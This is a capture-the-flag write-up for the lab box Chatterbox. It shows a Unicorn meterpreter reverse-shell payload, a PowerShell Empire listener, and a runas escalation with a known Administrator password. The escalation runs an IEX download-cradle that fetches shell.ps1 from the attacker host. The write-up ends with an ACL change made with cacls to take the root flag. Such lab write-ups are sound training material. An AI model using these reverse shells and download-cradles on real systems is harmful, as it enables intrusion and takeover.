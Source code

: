 # Alternative way to exploit Chatterbox

## Metasploit

An alternative way to exploit the box Chatterbox is by using **Metasploit** to get a _meterpreter_ shell instead of a normal reverse shell.
First create the payload with **Unicorn**:
```markdown
python /usr/share/unicorn-magic/unicorn.py windows/meterpreter/reverse_https 10.10.14.7 9003
```

This creates _powershell_attack.txt_ which is the payload that has to be executed on the box and I will rename it to _shell.ps1_.
And _unicorn.rc_ is a configuration file for **Metasploit** to start it automatically with the correct parameters:
```markdown
msfconsole -r unicorn.rc
```

To upload a file on the box, use the Python script from before:
```markdown
python 36025.py
```

Now it uploads the newly created payload on the box and **Metasploit** starts a _meterpreter_ session as the user _alfred_.
```markdown
msf5 exploit(multi/handler) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information  Connection
  --  ----  ----                     -----------  ----------
  1         meterpreter x86/windows               10.10.14.7:9003 -> 10.10.10.74:49165 (10.10.10.74)
```

## PowerShell Empire

Another alternative way to exploit the box Chatterbox is by using **PowerShell Empire**.
Lets start a HTTP listener:
```markdown
(Empire) > uselistener http

(Empire: listeners/http) > set Host http://10.10.14.7:443
(Empire: listeners/http) > set BindIP 10.10.14.7
(Empire: listeners/http) > set Port 443
(Empire: listeners/http) > execute
```

The listener is now started and we can create a launcher:
```markdown
(Empire: listeners/http) > launcher powershell
```

This is the payload to paste into a file that I will call _shell.ps1_ and will be uploaded to the box again via the Python exploit from before:
```markdown
python 36025.py
```

Now it uploads the newly created payload on the box and **Empire** starts an _agent_ as the user _alfred_.
```markdown
(Empire: listeners/http) > agents
```

As the credentials for Administrator are known, we can escalate our privileges:
```markdown
(Empire: agents) > interact H3M8B4N2

(Empire: H3M8B4N2) > usemodule management/runas
(Empire: powershell/management/runas) > set UserName Administrator
(Empire: powershell/management/runas) > set Domain CHATTERBOX
(Empire: powershell/management/runas) > set Password Welcome1!
(Empire: powershell/management/runas) > set Arguments "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.7/shell.ps1')"
(Empire: powershell/management/runas) > execute
```

This starts another _agent_ as _admnistrator_ which results in having have two agents:
```markdown
[\*] Active agents:
 Name     La Internal IP     Machine Name      Username                 Process            PID    Delay    Last Seen            Listener
 ----     -- -----------     ------------      --------                 -------            ---    -----    ---------            ----------
 H3M8B4N2 ps 10.10.10.74     CHATTERBOX        CHATTERBOX\Alfred        powershell         7476   5/0.0    2020-04-26 17:18:35  http
 NMF3Y2AC ps 10.10.10.74     CHATTERBOX        \*CHATTERBOX\Administrat powershell         7548   5/0.0    2020-04-26 17:18:36  http
```

## Getting Root flag

There is a way to get the root.txt flag without escalating privileges to _Administrator_.
The user _alfred_ has permissions to go into the home folder of _Administrator_ and when looking at the **Access Control List** of root.txt, we see that he is the owner of the file:
```markdown
Get-ACL root.txt | fl *
```

```markdown
PSPath                  : Microsoft.PowerShell.Core\FileSystem::C:\users\Admini
                          strator\Desktop\root.txt
PSParentPath            : Microsoft.PowerShell.Core\FileSystem::C:\users\Admini
                          strator\Desktop
PSChildName             : root.txt
PSDrive                 : C
PSProvider              : Microsoft.PowerShell.Core\FileSystem
AccessToString          : CHATTERBOX\Administrator Allow  FullControl
AuditToString           :
Path                    : Microsoft.PowerShell.Core\FileSystem::C:\users\Admini
                          strator\Desktop\root.txt
Owner                   : CHATTERBOX\Alfred
Group                   : CHATTERBOX\None
(...)
```

This means it is possible to edit the ACL to get any permissions for this file as _alfred_.
```markdown
cacls root.txt /t /e /p Alfred:F
```

Now _alfred_ has FullControl permissions for this file.
